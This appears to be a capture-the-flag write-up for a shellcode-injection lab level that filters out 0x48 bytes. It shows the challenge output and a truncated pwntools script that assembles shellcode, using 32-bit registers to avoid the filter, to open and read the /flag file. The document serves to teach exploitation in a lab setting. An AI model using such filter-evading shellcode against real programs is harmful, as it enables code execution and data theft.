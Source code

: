 ### Challenge

### Solving

running this with some test input t

```shell
hacker@shellcode-injection~level4:/challenge$ ./babyshell-level-4
###
### Welcome to ./babyshell-level-4!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

Mapped 0x1000 bytes for shellcode at 0x22817000!
Reading 0x1000 bytes from stdin.

t
Executing filter...

This challenge requires that your shellcode have no H bytes!

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x0000000022817000 | 74 0a                                         | je 0x2281700c

Executing shellcode!

Segmentation fault
hacker@shellcode-injection~level4:/challenge$ 
```
We come to the realisation that we are not allowed to use H bytes. These are essentially 0x48 opcodes. Now because we cant use these bytes we cannot pass the entire flag in one go. As such what an easier thing we can do is reference the memory location of the string``/flag`` that we enter allowing us to use it without the hassle of having it to store it properly, hence we can just reference this path normally through asm.

Now as we can't use 64 bit registers we can use the 32 bit -> 8 bit registers

```python
from pwn import *

p = process("/challenge/babyshell-level-4")
context.arch = 'amd64'

shellcode = asm('''
xor esi, esi
xor edx, edx
lea edi, [eip + location]
xor eax, eax
mov al, 2
syscall

mov edi, eax
xor eax, eax
mov al, 0
```